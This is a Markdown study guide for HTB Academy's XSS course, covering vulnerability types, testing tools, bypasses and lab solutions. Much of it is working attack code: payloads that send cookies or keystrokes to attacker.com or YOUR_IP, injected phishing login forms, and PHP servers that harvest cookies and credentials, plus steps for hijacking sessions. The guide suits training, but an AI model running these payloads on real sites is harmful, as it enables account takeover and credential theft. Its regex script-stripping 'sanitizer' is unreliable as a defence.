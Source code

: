 # Cross-Site Scripting (XSS) - HTB Academy Guide

## Overview

Cross-Site Scripting (XSS) is a web application vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. XSS occurs when user input is not properly sanitized and gets executed as JavaScript code in the victim's browser.

**Impact:**
- **Session hijacking** - Stealing authentication cookies
- **Credential theft** - Capturing login credentials via fake forms
- **Data exfiltration** - Accessing sensitive information
- **Website defacement** - Modifying page content
- **Phishing attacks** - Redirecting users to malicious sites
- **Malware distribution** - Downloading malicious files

---

## Types of XSS Vulnerabilities

### 1. Stored XSS (Persistent XSS)

**Most Critical Type** - The injected payload gets stored in the back-end database and affects all users who visit the page.

#### Characteristics:
- **Persistent** - Payload remains after page refresh
- **Wide impact** - Affects all users visiting the page
- **Database storage** - Payload stored in backend database
- **Hard to remove** - Requires database cleanup

#### Example Scenario:
```html
<!-- User input stored in database -->
Username: <script>alert(document.cookie)</script>

<!-- Later displayed to all users -->
<div>Welcome <script>alert(document.cookie)</script></div>
```

#### Testing Method:
1. Submit XSS payload through input form
2. Refresh page to confirm persistence
3. Check if other users see the same payload

---

### 2. Reflected XSS (Non-Persistent XSS)

**Temporary XSS** - Input gets processed by back-end server and returned without proper sanitization.

#### Characteristics:
- **Non-persistent** - Only affects targeted user
- **Server processing** - Input reaches back-end server
- **URL parameters** - Often exploited through GET requests
- **Temporary messages** - Common in error messages

#### Example Scenario:
```html
<!-- User input in URL -->
http://target.com/search?q=<script>alert(window.origin)</script>

<!-- Server reflects input in error message -->
<div>Search results for: <script>alert(window.origin)</script></div>
```

#### Attack Vector:
```bash
# Crafted malicious URL sent to victim
http://target.com/index.php?task=<script>alert(window.origin)</script>
```

---

### 3. DOM-based XSS (Client-Side XSS)

**Client-side processing** - Completely processed on the browser through JavaScript, never reaches back-end server.

#### Characteristics:
- **Client-side only** - Never reaches backend server
- **JavaScript processing** - Uses Document Object Model (DOM)
- **No HTTP requests** - Processing happens in browser
- **URL fragments** - Often uses # parameters

#### Source and Sink Concept:

**Source** - JavaScript object that takes user input:
- URL parameters
- Input fields
- Hash fragments
- localStorage/sessionStorage

**Sink** - Function that writes to DOM objects:
```javascript
// Vulnerable functions
document.write()
DOM.innerHTML
DOM.outerHTML

// jQuery functions
add()
after()
append()
```

#### Example Vulnerable Code:
```javascript
// Source - getting user input
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);

// Sink - writing to DOM without sanitization
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

#### DOM XSS Payload:
```html
<!-- innerHTML doesn't execute <script> tags -->
<img src="" onerror=alert(window.origin)>
```

---

## Basic XSS Testing Payloads

### Standard Payloads

**Basic Alert Payload:**
```html
<script>alert(window.origin)</script>
```

**Cookie Stealing:**
```html
<script>alert(document.cookie)</script>
```

**Phishing Login Form Injection:**
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://attacker.com><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');</script>
```

**Session Hijacking (Cookie Stealing):**
```html
<!-- Direct navigation method -->
<script>document.location='http://attacker.com/steal.php?c='+document.cookie</script>

<!-- Stealthy image method -->
<script>new Image().src='http://attacker.com/steal.php?c='+document.cookie</script>

<!-- Remote script loading -->
<script src="http://attacker.com/script.js"></script>
```

**Blind XSS Detection Payloads:**
```html
<script src=http://attacker.com/fieldname></script>
'><script src=http://attacker.com/fieldname></script>
"><script src=http://attacker.com/fieldname></script>
<script>$.getScript("http://attacker.com/fieldname")</script>
```

**Alternative Payloads (when <script> is blocked):**
```html
<!-- Image onerror event -->
<img src="" onerror=alert(window.origin)>

<!-- Plaintext rendering -->
<plaintext>

<!-- Print dialog -->
<script>print()</script>

<!-- SVG payload -->
<svg onload=alert(window.origin)>

<!-- Input onfocus -->
<input autofocus onfocus=alert(window.origin)>
```

### Advanced Payloads

**Event Handlers:**
```html
<body onload=alert(1)>
<div onmouseover=alert(1)>
<img src=x onerror=alert(1)>
<iframe src=javascript:alert(1)>
```

**Without Parentheses:**
```html
<script>alert`1`</script>
<script>eval('alert\u00281\u0029')</script>
```

**Encoded Payloads:**
```html
<!-- URL encoding -->
%3Cscript%3Ealert(1)%3C/script%3E

<!-- HTML entities -->
&lt;script&gt;alert(1)&lt;/script&gt;

<!-- Unicode encoding -->
<script>alert('\u0058\u0053\u0053')</script>
```

---

## XSS Discovery Methods

### 1. Automated Discovery

**Open-Source Tools:**
```bash
# XSStrike
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "http://target.com/index.php?param=test"

# Brute XSS
git clone https://github.com/rajeshmajumdar/BruteXSS.git

# XSSer
apt install xsser
xsser -u "http://target.com/search?q=XSS"
```

**Commercial Scanners:**
- Burp Suite Professional
- Nessus
- OWASP ZAP
- Acunetix

### 2. Manual Discovery

**Testing Approach:**
1. **Identify input points** - All user inputs, not just forms
2. **Submit test payload** - Use basic `<script>alert(1)</script>`
3. **Analyze response** - Check page source for payload
4. **Verify execution** - Confirm JavaScript execution
5. **Test variations** - Try different payload types

**Input Points to Test:**
- HTML form fields
- URL parameters (GET)
- HTTP headers (User-Agent, Cookie, Referer)
- JSON/XML parameters
- File upload fields
- Search functionality

### 3. Code Review

**Frontend Code Review:**
```javascript
// Look for dangerous functions
document.write()
element.innerHTML = userInput
element.outerHTML = userInput
eval(userInput)

// jQuery dangerous functions
$(element).html(userInput)
$(element).append(userInput)
```

**Backend Code Review:**
```php
// PHP - Look for unescaped output
echo $_GET['input'];
echo $_POST['data'];

// No sanitization functions
htmlspecialchars()
htmlentities()
filter_var()
```

---

## Common XSS Attack Scenarios

### 1. Session Hijacking & Cookie Stealing

**Overview:**
Session hijacking allows attackers to steal user authentication cookies through XSS, gaining unauthorized access to victim accounts without knowing their credentials.

#### Blind XSS Detection

**What is Blind XSS?**
Blind XSS occurs when the vulnerability is triggered on a page we don't have access to (e.g., Admin panels, contact forms, support tickets).

**Common Blind XSS Targets:**
- Contact Forms
- Reviews 
- User Details
- Support Tickets
- HTTP User-Agent header

**Remote Script Loading for Detection:**
```html
<!-- Basic remote script loading -->
<script src="http://YOUR_IP/script.js"></script>

<!-- Field-specific detection -->
<script src="http://YOUR_IP/fullname"></script>  <!-- for fullname field -->
<script src="http://YOUR_IP/username"></script>  <!-- for username field -->
<script src="http://YOUR_IP/website"></script>   <!-- for website field -->
```

**Blind XSS Detection Payloads:**
```html
<script src=http://YOUR_IP></script>
'><script src=http://YOUR_IP></script>
"><script src=http://YOUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://YOUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//YOUR_IP");a.send();</script>
<script>$.getScript("http://YOUR_IP")</script>
```

#### Complete Session Hijacking Workflow

**Step 1: Setup Server for Detection**
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

**Step 2: Test Blind XSS Payloads**
```html
# Submit different payloads in each field:
<script src=http://10.10.14.55/fullname></script>
<script src=http://10.10.14.55/username></script>
<script src=http://10.10.14.55/website></script>
```

**Step 3: Create Cookie Stealing Script**
Create `script.js`:
```javascript
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;
```

**Step 4: Create Cookie Harvesting Server**
Create `index.php`:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

**Step 5: Deploy Working Payload**
```html
<!-- Use discovered vulnerable field with script.js -->
<script src=http://YOUR_IP/script.js></script>
```

**Step 6: Collect Stolen Cookies**
```bash
# Monitor server requests
tail -f /tmp/tmpserver/cookies.txt

# Example output:
# Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

**Step 7: Use Stolen Cookies**
1. Navigate to target login page
2. Open Firefox Developer Tools (Shift+F9)
3. Go to Storage tab
4. Click + to add new cookie
5. Set Name and Value from stolen cookie
6. Refresh page to access victim account

#### Alternative Cookie Stealing Methods

**Direct Navigation Method:**
```javascript
document.location='http://YOUR_IP/steal.php?cookie='+document.cookie;
```

**Image Loading Method (Stealthy):**
```javascript
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;
```

**Fetch API Method:**
```javascript
fetch('http://YOUR_IP/steal.php?cookie='+document.cookie);
```

**XMLHttpRequest Method:**
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://YOUR_IP/steal.php?cookie='+document.cookie);
xhr.send();
```

### 2. Credential Harvesting & Phishing Attack

**Basic Fake Login Form:**
```html
<script>
document.write('<h3>Please login to continue</h3>');
document.write('<form action=http://attacker.com/harvest.php>');
document.write('<input type="text" name="username" placeholder="Username">');
document.write('<input type="password" name="password" placeholder="Password">');
document.write('<input type="submit" value="Login">');
document.write('</form>');
</script>
```

### Advanced Phishing Attack (HTB Academy Style)

**Complete Phishing Payload with Form Removal:**
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKER_IP:PORT><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

**URL Encoded Phishing Payload:**
```url
%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2FATTACKER_IP%3APORT%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

**Complete Attack Workflow:**

1. **Setup Credential Harvesting Server:**
```bash
# Create server directory
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```

2. **Create index.php for credential capture:**
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

3. **Start PHP listener:**
```bash
sudo php -S 0.0.0.0:80
```

4. **Craft malicious URL (example):**
```url
http://target.com/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.55%3A80%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

5. **Check captured credentials:**
```bash
cat /tmp/tmpserver/creds.txt
```

**Attack Breakdown:**
- `'>` - Escapes from image URL attribute
- `document.write()` - Injects fake login form
- `getElementById('urlform').remove()` - Removes original form to avoid suspicion
- `<!--` - Comments out remaining HTML to prevent rendering issues
- Form redirects victims back to original site after credential theft

### 3. Keylogger

**JavaScript Keylogger:**
```html
<script>
document.addEventListener('keypress', function(event) {
    fetch('http://attacker.com/keylog.php?key=' + event.key);
});
</script>
```

### 4. Page Defacement

**Modifying Page Content:**
```html
<script>
document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
</script>
```

---

## XSS Prevention and Bypass Techniques

### Common Filters and Bypasses

**Filter: Blocking `<script>` tags**
```html
<!-- Bypass with other tags -->
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src=javascript:alert(1)>
```

**Filter: Blocking `alert()`**
```html
<!-- Alternative functions -->
<script>confirm(1)</script>
<script>prompt(1)</script>
<script>console.log(1)</script>
```

**Filter: Blocking quotes**
```html
<!-- Using backticks -->
<script>alert`1`</script>

<!-- Using String.fromCharCode -->
<script>alert(String.fromCharCode(88,83,83))</script>
```

**Filter: Case-sensitive filtering**
```html
<!-- Mixed case -->
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR=alert(1)>
```

**Filter: Blocking form injection**
```html
<!-- Using DOM manipulation instead of direct HTML -->
<script>
var form = document.createElement('form');
form.action = 'http://attacker.com';
form.innerHTML = '<input name="user"><input type="password" name="pass">';
document.body.appendChild(form);
</script>
```

### HTML Context Escaping

**Escaping from different contexts:**
```html
<!-- Breaking out of attribute -->
" onmouseover="alert(1)
'><script>alert(1)</script>

<!-- Breaking out of HTML comment -->
--><script>alert(1)</script><!--

<!-- Breaking out of CDATA -->
]]><script>alert(1)</script>
```

---

## Tools and Resources

### Testing Tools
```bash
# XSStrike - Advanced XSS detection
python xsstrike.py -u "target.com" --crawl

# Burp Suite Extensions
- XSS Validator
- Retire.js
- Reflected XSS

# Browser Extensions
- XSS Ray (Chrome)
- XSS Me (Firefox)
```

### Session Hijacking Tools
```bash
# XSS Hunter - Blind XSS detection platform
https://xsshunter.com/

# PHP Cookie Harvester (create manually)
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

# Cookie Editor - Browser extension for cookie manipulation
- Cookie-Editor (Chrome/Firefox)
- EditThisCookie (Chrome)

# Netcat listener for quick testing
nc -lvnp 80
```

### Payload Repositories
- **PayloadAllTheThings** - XSS section
- **PayloadBox** - XSS payloads
- **OWASP XSS Filter Evasion** - Bypass techniques
- **PortSwigger XSS Cheat Sheet** - Browser-specific payloads

### Vulnerable Practice Sites
- **DVWA** - Damn Vulnerable Web Application
- **bWAPP** - Buggy Web Application
- **WebGoat** - OWASP WebGoat
- **XSS Game** - Google XSS Challenge

---

## Detection and Mitigation

### Security Headers
```bash
# Content Security Policy
Content-Security-Policy: default-src 'self'

# X-XSS-Protection (legacy)
X-XSS-Protection: 1; mode=block

# X-Content-Type-Options
X-Content-Type-Options: nosniff
```

### Secure Coding Practices
```javascript
// Input validation
function sanitizeInput(input) {
    return input.replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, '');
}

// Output encoding
function escapeHtml(text) {
    return text
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#039;");
}
```

---

## HTB Academy Lab Solutions

### Question Examples

**Cookie Stealing Payload:**
```html
<script>alert(document.cookie)</script>
```

**DOM XSS with innerHTML:**
```html
<img src="" onerror=alert(document.cookie)>
```

**Reflected XSS in URL parameter:**
```bash
http://target.com/index.php?task=<script>alert(document.cookie)</script>
```

**Phishing Attack (HTB Academy Labs):**
```html
# Raw payload for phishing exercise
'><script>document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP:PORT><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--

# URL encoded for browser
http://SERVER_IP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2FYOUR_IP%3APORT%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

**Session Hijacking Lab (HTB Academy):**
```bash
# Step 1: Test blind XSS detection payloads
<script src=http://YOUR_IP/fullname></script>
<script src=http://YOUR_IP/username></script>  
<script src=http://YOUR_IP/website></script>

# Step 2: Create script.js for cookie stealing
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;

# Step 3: Use working payload with script.js
<script src=http://YOUR_IP/script.js></script>

# Step 4: Check stolen cookies
cat cookies.txt
# Output: Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2

# Step 5: Use cookie in Firefox Developer Tools (Shift+F9)
# Storage tab > Add cookie > Set Name: cookie, Value: f904f93c949d19d870911bf8b05fe7b2
```

**XSS Discovery Exercise Solutions:**
```bash
# Finding vulnerable parameter
# Answer: email (example from HTB labs)

# Finding XSS type  
# Answer: reflected (example from HTB labs)
```

---

## XSS Troubleshooting & Common Mistakes

### Phishing Attack Issues

**Problem: Payload not working**
```bash
# Check 1: Basic XSS first
<script>alert(1)</script>

# Check 2: Verify IP address
ip a | grep tun0
ifconfig tun0

# Check 3: URL encoding
# Use Burp Suite or online URL encoder
```

**Problem: PWNIP:PWNPO placeholders**
```html
# ❌ WRONG - Using placeholders from tutorial
action=http://PWNIP:PWNPO

# ✅ CORRECT - Using your actual IP
action=http://10.10.14.55:8080
```

**Problem: Server not receiving credentials**
```bash
# Check if PHP server is running
sudo netstat -tlnp | grep :8080

# Check server logs
tail -f /var/log/apache2/access.log

# Test with netcat first
sudo nc -lvnp 8080
```

**Problem: Form not appearing**
```html
# Debug: Check browser console (F12)
# Look for JavaScript errors

# Check page source for payload injection
View Source or Ctrl+U
```

### Session Hijacking Issues

**Problem: No requests to server during blind XSS testing**
```bash
# Check 1: Server is running
sudo php -S 0.0.0.0:80

# Check 2: Firewall allowing connections
sudo ufw allow 80

# Check 3: Test with simple HTTP request
curl http://YOUR_IP

# Check 4: Try different payload variations
'><script src=http://YOUR_IP/test></script>
"><script src=http://YOUR_IP/test></script>
```

**Problem: Script.js not loading**
```bash
# Check file exists in server directory
ls -la /tmp/tmpserver/script.js

# Check file permissions
chmod 644 script.js

# Test direct access
curl http://YOUR_IP/script.js
```

**Problem: Cookies not being captured**
```javascript
// Debug: Check if document.cookie contains anything
console.log(document.cookie);

// Alternative cookie stealing methods
new Image().src='http://YOUR_IP/test?cookie='+document.cookie;
fetch('http://YOUR_IP/steal?c='+document.cookie);
```

**Problem: Cookie injection not working**
```bash
# Check cookie format in browser
# Format should be: Name=Value
# Example: cookie=f904f93c949d19d870911bf8b05fe7b2

# Clear browser cookies first
# Then add stolen cookie
# Refresh page to test access
```

### Common Payload Encoding Issues

**URL Encoding Problems:**
```bash
# Spaces must be encoded as %20 or +
Please login to continue
# Becomes:
Please+login+to+continue

# Special characters must be encoded
< = %3C
> = %3E
" = %22
' = %27
```

**JavaScript String Escaping:**
```javascript
// ❌ WRONG - Unescaped quotes
document.write('<form action="http://attacker.com">');

// ✅ CORRECT - Escaped quotes
document.write('<form action=http://attacker.com>');
```

### Debugging XSS Payloads

**Step-by-step debugging:**
1. Test basic XSS: `<script>alert(1)</script>`
2. Test with URL parameter: `?url=<script>alert(1)</script>`
3. Check payload encoding with online tools
4. Verify server listening: `sudo php -S 0.0.0.0:8080`
5. Test credential capture with manual form submission

---

*This XSS guide covers the fundamental concepts and practical techniques from HTB Academy's Cross-Site Scripting module, providing a comprehensive resource for penetration testing and web application security assessment.* 